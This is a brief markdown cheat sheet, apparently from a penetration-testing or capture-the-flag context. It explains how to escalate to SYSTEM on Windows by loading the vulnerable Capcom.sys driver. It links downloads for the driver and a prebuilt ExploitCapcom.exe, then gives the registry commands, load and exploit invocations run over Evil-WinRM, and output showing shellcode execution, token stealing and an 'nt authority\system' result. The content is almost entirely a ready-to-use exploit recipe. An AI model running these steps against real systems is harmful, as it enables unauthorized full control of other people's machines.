 # Exploit (exe file) and sys file

- [Capcom.sys (mega.nz)](https://mega.nz/file/GiBTmCRD#cRz3XWMEojDvrd0LHPE3GpXKkYdikITvco8qKwmdgzQ)
- [ExploitCapcom.exe (github - clubby789)](https://github.com/clubby789/ExploitCapcom/releases/tag/1.0)


# Usage

make a new registry:

```
*Evil-WinRM* PS C:\Users\svc-print> reg add HKCU\System\CurrentControlSet\CAPCOM /v ImagePath /t REG_SZ /d "\??\C:\Users\svc-print\Capcom.sys"
The operation completed successfully.

*Evil-WinRM* PS C:\Users\svc-print> reg add HKCU\System\CurrentControlSet\CAPCOM /v Type  /t REG_DWORD /d 1
The operation completed successfully.
```

load the Capcom.sys:

```
.\ExploitCapcom.exe LOAD C:\Windows\Temp\Capcom.sys

[*] Service Name: esfdtwdd
```

execute command as system:

```
.\ExploitCapcom.exe EXPLOIT whoami

[*] Capcom.sys exploit
[*] Capcom.sys handle was obtained as 0000000000000064
[*] Shellcode was placed at 0000020F083F0008
[+] Shellcode was executed
[+] Token stealing was successful
[+] Command Executed
nt authority\system
```
